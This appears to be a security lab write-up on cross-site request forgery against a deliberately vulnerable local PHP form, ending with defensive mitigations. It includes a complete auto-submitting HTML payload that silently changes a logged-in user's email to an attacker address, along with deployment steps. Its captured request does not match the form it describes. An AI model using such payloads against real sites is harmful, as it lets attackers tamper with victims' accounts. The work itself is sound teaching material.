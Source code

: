 
# 🎯 Cross-Site Request Forgery (CSRF) Lab 0x01

## 🌟 **Overview**

This lab demonstrates a **Cross-Site Request Forgery (CSRF)** attack against a vulnerable web application. By exploiting an unprotected form submission, we successfully manipulate a user's action without their explicit consent, showcasing the critical need for proper CSRF defenses.

---

## 📝 **Lab Context**

- **Target:** A simple web form for user authentication and email update.
- **Attack Objective:** Automate a malicious email update for the victim's account using a CSRF payload.

---

## 🌐 **Vulnerable Form Analysis**

### **Captured HTML Form**

Below is the HTML structure of the vulnerable form:

```html
<form action="/labs/csrf0x01.php" method="post">
    <div class="mb-3 form-group">
        <label for="email">Email</label>
        <input type="text" name="email" class="form-control" id="email" aria-describedby="emailHelp" placeholder="Enter email">
    </div>
    <div class="mb-3">
        <button type="submit" class="btn btn-primary">Submit</button>
    </div>
</form>
```

### **Key Observations:**

1. **Action URL:** `/labs/csrf0x01.php` handles the form submission.
2. **Fields:** The form expects a single field: `email`.
3. **No CSRF Protection:** There are no tokens or server-side measures to verify the authenticity of the request.

---

## 📤 **Captured POST Request**

When the form is submitted with valid credentials (`jeremy` as both username and password), the following POST request is generated:

```plaintext
POST /labs/csrf0x01.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/labs/csrf0x01.php

username=jeremy&password=jeremy
```

### **Key Takeaway:**
The server blindly processes any incoming request with these parameters, making it susceptible to CSRF attacks.

---

## 🛠️ **Crafting the CSRF Payload**

### **Attack Vector:**

By creating a malicious HTML page, we exploit the form's vulnerability to change the email address of a logged-in user. The payload executes automatically upon loading.

### **CSRF Payload HTML:**

```html
<!DOCTYPE html>
<html>
<body>
  <form action="http://localhost/labs/csrf0x01.php" method="post">
    <input type="hidden" name="email" value="csrf@attacker.com">
  </form>
  <script>
    // Automatically submit the form when the page loads
    window.onload = function() {
      document.forms[0].submit();
    };
  </script>
</body>
</html>
```

### **Explanation:**

1. **Hidden Input Field:** The `email` field is prefilled with the attacker's desired value, `csrf@attacker.com`.
2. **Automatic Form Submission:** The JavaScript snippet ensures that the form is submitted as soon as the victim loads the page.

---

## 🚀 **Executing the Attack**

1. **Deploy the Payload:**
   - Save the above HTML as `csrf.html`.
   - Open it in the browser: `file:///path/to/csrf.html`.

2. **Impact on Target:**
   - When the victim is logged into the target site, opening this file automatically submits the malicious form.
   - The user's email address is updated to `csrf@attacker.com`.

---

## 🧠 **Learning Outcomes**

### **What We Learned:**

- **CSRF Mechanics:** CSRF exploits the trust between the user's browser and the server to perform unauthorized actions.
- **Importance of Defense:** The lack of CSRF tokens and same-origin checks allowed the attack to succeed.

### **Real-World Implications:**

- **Data Tampering:** Attackers can modify sensitive user data.
- **Unauthorized Transactions:** Imagine this vulnerability in banking or e-commerce applications—devastating consequences.

---

## 🛡️ **Mitigation Strategies**

### 1. **Anti-CSRF Tokens**
   - Implement server-generated tokens that must be validated with each form submission.

### 2. **SameSite Cookies**
   - Use the `SameSite` attribute for cookies to block them from being sent with cross-site requests.

### 3. **Custom Headers**
   - Require a custom header (e.g., `X-CSRF-Token`) that cannot be set cross-origin.

---

## 🌟 **Key Takeaway**

This lab underscores the simplicity and severity of CSRF vulnerabilities and demonstrates why robust server-side defenses are essential to secure modern web applications.
